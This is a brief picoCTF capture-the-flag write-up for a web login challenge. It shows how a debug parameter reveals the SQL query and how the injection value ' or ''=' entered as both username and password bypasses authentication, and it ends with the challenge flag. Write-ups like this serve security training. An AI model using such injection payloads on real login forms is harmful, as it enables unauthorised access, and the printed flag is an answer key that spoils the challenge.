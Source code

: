 #web-exploitation
<hr>

#### Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

#### Solve
1.  First, send POST request to https://jupiter.challenges.picoctf.org/problem/50009/login.php with form key of debug=1
2. The SQL query: SELECT * FROM users WHERE name=' '  AND password=' '
3. Do SQL Injection by sending POST request with username=`' or ''='` and password=`' or ''='`
4. Result of SQL query: `SQL query: SELECT * FROM users WHERE name='' or ''='' AND password='' or ''=''`
5. picoCTF{s0m3_SQL_fb3fe2ad}